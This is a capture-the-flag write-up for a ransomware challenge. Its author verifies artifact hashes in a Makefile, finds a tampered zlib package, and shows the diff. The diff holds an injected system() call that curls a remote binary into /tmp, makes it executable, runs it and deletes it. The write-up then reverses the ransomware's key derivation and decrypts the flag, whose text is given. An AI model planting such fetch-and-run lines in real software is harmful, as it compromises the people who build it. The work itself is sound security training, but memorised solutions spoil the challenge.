



# T2D2: Reclusive Ransomware

## Problem Description
Uh oh! One of your engineers just reported that all of their files were encrypted by ransomware. This is bad news; we need to figure out how this ransomware infected the engineer before it can spread to other machines! Overworked and underpaid as you are, we're going to require you to do not only that but also to fix their files by cracking the encryption scheme! A trivial task for a learned lion such as yourself.

Here's what we know: this engineer had just cloned down and built an internal tool code repository to work on it when the ransomware hit, so we suspect there might be an insider threat at play. Another thing we know is that the ransomware binary deleted itself after running so we don't have a copy for you to analyze. Hopefully, you can find it when you figure out the attack vector. Finally, we have a sample file for you to decrypt once you've cracked the scheme; your payment of one CTF challenge flag is inside!

### Resources
- https://github.com/luckiest-lion/lionctl
- [Encoded Flag (text file)](resources/flag.txt.enc)

## Objectives
Find the flag inside the file.

## Approach and Solution
This was kind of a fun challenge. 

### Verifying Hashes
First things first: let's clone that git repository. We have a whole bunch of files, but it's likely that the one file we need to look at is the Makefile. Indeed, when we look at it, we see this comment:

```Makefile
# TODO: My manager told me to verify the artifact hashes with the below instructions, 
# 		but I'm too lazy so I'll do it later ¯\_(ツ)_/¯ What's the worst that could happen?
# verify:
# 	Test that each artifact's sha256 sum is equal to https://target-flask.chals.io/repository/<artifact name>/hash
#   e.g.: sha256sum openssl.tar.gz == the response from https://target-flask.chals.io/repository/openssl-3.3.1.tar.gz
```

So our next step is pretty clear--we need to modify the Makefile to verify the SHA-256 sums before it builds. To do that, I just add the following section right before the `build` section:

```Makefile
verify:
	@echo "Verifying hashes..."
	@hash_mismatch=0; \
	for url in $(OPENSSL_URL) $(CURL_URL) $(ZLIB_URL) $(LIBXML2_URL) $(CJSON_URL) $(SQLITE3_URL) $(LIBPNG_URL); do \
		artifact=$$(basename $$url); \
		expected_hash=$$(curl -s https://target-flask.chals.io/repository/$$artifact/hash); \
		computed_hash=$$(sha256sum $(BUILD_DIR)/$$artifact | awk '{ print $$1 }'); \
		if [ "$$expected_hash" != "$$computed_hash" ]; then \
			echo "Hash mismatch for $$artifact: expected $$expected_hash, got $$computed_hash"; \
			hash_mismatch=1; \
		else \
			echo "$$artifact verified"; \
		fi; \
	done; \
	if [ "$$hash_mismatch" -eq 1 ]; then \
		echo "Some hashes did not match."; \
		exit 1; \
	else \
		echo "All hashes verified successfully."; \
		exit 0; \
	fi
```

Now we can run `make verify` in the terminal to verify the hashes. This results in the following output:
```
Verifying hashes...
openssl-3.3.1.tar.gz verified
curl-8.9.1.tar.gz verified
Hash mismatch for zlib-1.3.1.tar.gz: expected 9a93b2b7dfdac77ceba5a558a580e74667dd6fede4585b91eefb60f03b72df23, got 3205c09cfdfdeb44f508dea69fe864d171ccf48840af5fd65bbd64c8c33d8bb2
libxml2-2.13.3.tar.xz verified
cJSON-1.7.18.zip verified
sqlite-autoconf-3460100.tar.gz verified
libpng-1.6.43.tar.gz verified
Some hashes did not match.
make: *** [verify] Error 1
```

So we can see here that we have a hash mismatch for the `zlib` package. 

### Investigating the Corrupted Package
We can pull the corrupted `zlib` package using `wget`.

`wget https://target-flask.chals.io/repository/zlib-1.3.1.tar.gz`

and then all we need to do is simply untar it.

We also pull a non-corrupted version of `zlib` from the Internet:

`wget https://github.com/madler/zlib/releases/download/v1.3.1/zlib-1.3.1.tar.gz`

and unpack that tar as well.

Once both are untarred, the next step is just to run the `diff` command on both directories. Running diff against the two of them results in this:

```
diff zlib-1.3.1/deflate.c build/zlib-1.3.1/deflate.c
949a950,951
>     system("curl -s -o /tmp/evil http://target-httpd.chals.io/qQYX826mR4jJwAP3GS97yd && chmod +x /tmp/evil && /tmp/evil flag.txt && rm /tmp/evil");
> 
```

Great! Now we have another URL that we can `curl` from. So let's `curl` this URL and continue analyzing.

We get some file `qQYX826mR4jJwAP3GS97yd` (you can rename this if you want). 

### Analyzing the Mysterious File
Running `file` on this downloaded file gives us the following:

```
ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3a33916b59f8b45fd3bafd5ac0135e5d35efbfd2, for GNU/Linux 3.2.0, not stripped
```

So this means it is most likely a C or C-adjacent compiled program. Let's open it in Binary Ninja (you can also use Ghidra). I actually used Ghidra when I was doing this for the competition, but I already had Binary Ninja up and running at the time of writing this writeup, so we'll just stick with that.

Here is the decompiled main function in Binary Ninja:



We can see here that there are two functions that are called: `generate_password` and `aes_encrypt_file`.

Looking at those functions, we see this:




There's a lot of weird computer math here, which means that even though it is tempting to write this in Python, it's better to just write in in C. We also see that the password is based directly on the name of the file that is being encrypted, so we can generate the same password if we have the name of the file.

The C program I wrote to generate the password is as follows:

```c
#include <stdio.h>
#include <string.h>

void generate_password(long param_1) {
    char cVar1;
    size_t sVar2;
    int local_24;
    unsigned long local_18 = 0xbebafecaefbeadde; // note that I got this from Ghidra, not Binary Ninja
    
    // Setup
    char *param_2 = "flag.txt";
    int param_3 = 0x20;
    sVar2 = strlen(param_2);
    
    // Password generation loop
    // This is pretty much just copy and pasting the logic from Ghidra
    for (local_24 = 0; local_24 < param_3; local_24++) {
        *(unsigned char *)(param_1 + local_24) =
             *(unsigned char *)((long)&local_18 + (long)(local_24 % 8)) ^ param_2[local_24 % (int)sVar2];
        cVar1 = *(char *)(param_1 + local_24);
        *(char *)(param_1 + local_24) =
             cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
    }

}

int main() {
    char password[0x30] = {0}; 
    generate_password((long)password);
    
    printf("Generated password: ");
    for (int i = 0; i < 0x20; i++) {
        printf("%02x", (unsigned char)password[i]);
    }
    printf("\n");

    return 0;
}

```

Running this gives us a hex password of `d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb`. From here, since we have the AES key, we can just reverse the AES encryption using the function we discovered earlier. Analyzing the fucntion, we can see that the IV used in this AES encryption is just all 0's, so we just need 16 bytes of 0. Then we create the AES cipher with it, and decrypt the ciphertext with the new AES cipher. For this part, I wrote a Python script:

```python
from Crypto.Cipher import AES
import hashlib

def decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password):
    binary_password = bytes.fromhex(hex_password)

    iv = b'\x00' * 16

    with open(encrypted_file_path, 'rb') as f:
        ciphertext = f.read()

    cipher = AES.new(binary_password, AES.MODE_CFB, iv=iv, segment_size=128)

    decrypted_data = cipher.decrypt(ciphertext)

    with open(decrypted_file_path, 'wb') as f:
        f.write(decrypted_data)

    print(f"Decryption complete, file saved as '{decrypted_file_path}'")

hex_password = "d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb"
encrypted_file_path = "flag.txt.enc" 
decrypted_file_path = "decrypted_flag.txt" 

decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password)

```

And when we open up our `decrypted_flag.txt`, we get:

`flag{stand_and_deliver_your_money_or_your_files!}`

## Rabbit Holes